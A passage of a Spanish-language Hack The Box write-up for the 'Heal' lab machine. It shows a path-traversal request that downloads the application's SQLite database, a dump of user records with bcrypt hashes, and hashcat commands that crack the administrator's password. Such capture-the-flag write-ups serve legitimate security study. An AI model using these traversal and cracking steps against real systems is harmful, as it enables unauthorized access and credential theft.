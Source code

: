 Con esta información, localicé la base da datos y la descargué a mi máquina.

```http
GET /download?filename=../../storage/development.sqlite3 HTTP/1.1
```

![](assets/img/htb-writeup-heal/heal2_4.png)

---

Analicé el contenido de la base de datos y filtré las entradas de la tabla users.

```terminal
/home/kali/Documents/htb/machines/heal:-$ sqlite3 development.sqlite3 .dump | grep 'INSERT INTO users'
INSERT INTO users VALUES(1,'ralph@heal.htb','$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG','2024-09-27 07:49:31.614858','2024-09-27 07:49:31.614858','Administrator','ralph',1);
INSERT INTO users VALUES(2,'user@heal.htb','$2a$12$y9FotM5ggKIVEAuaeJz67.VZGXYtkx/6t2ktqEBl5M9BiHZcSRjbm','2025-05-22 17:26:24.688639','2025-05-22 17:26:24.688639','user name','username',0);
INSERT INTO users VALUES(3,'tester3@test.com','$2a$12$SdKhmjs1gDNlJI1.Z2MLRuq0tbxPgmBus9WZmv6MdJZH0UQR97Fhu','2025-05-22 17:47:06.056468','2025-05-22 17:47:06.056468','tester3','tester3',0);
INSERT INTO users VALUES(4,'user2@heal.htb','$2a$12$9mwrJNqw0Onwbj5Zwlc4OO46hi8G1jHwHxDoPUEqrsfwLFgcxNe1W','2025-05-22 18:15:18.002283','2025-05-22 18:15:18.002283','user name','username2',0);
```

Entre los registros, se encuentra ralph el usuario Administrator. Tomó el hash bcrypt y lo crackeo con hashcat.

```terminal
/home/kali/Documents/htb/machines/heal:-$ hashcat --show '$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG'
   # | Name                                            | Category
=====+=================================================+==============================
 3200 | bcrypt $2*$, Blowfish (Unix)                   | Operating System

/home/kali/Documents/htb/machines/heal:-$ hashcat -a 0 -m 3200 ralf-hash.txt /usr/share/wordlists/rockyou.txt
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```
